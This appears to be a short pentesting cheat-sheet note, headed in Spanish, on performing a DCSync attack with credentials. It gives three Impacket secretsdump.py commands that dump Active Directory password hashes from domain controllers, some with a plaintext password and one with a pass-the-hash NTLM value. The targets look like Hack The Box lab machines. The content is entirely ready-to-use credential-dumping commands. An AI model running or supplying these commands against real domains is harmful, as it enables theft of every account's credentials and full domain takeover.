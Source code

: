 

# DSYNC CON CREDENCIALES
```shell
secretsdump.py htb.local/mrlky:Football#7@10.10.10.103

secretsdump.py egotistical-bank/svc_loanmgr@10.10.10.175

secretsdump.py -hashes ':56e4633688c0fdd57c610faf9d7ab8df' 'EXTERNAL/Administrator@192.168.169.248'
```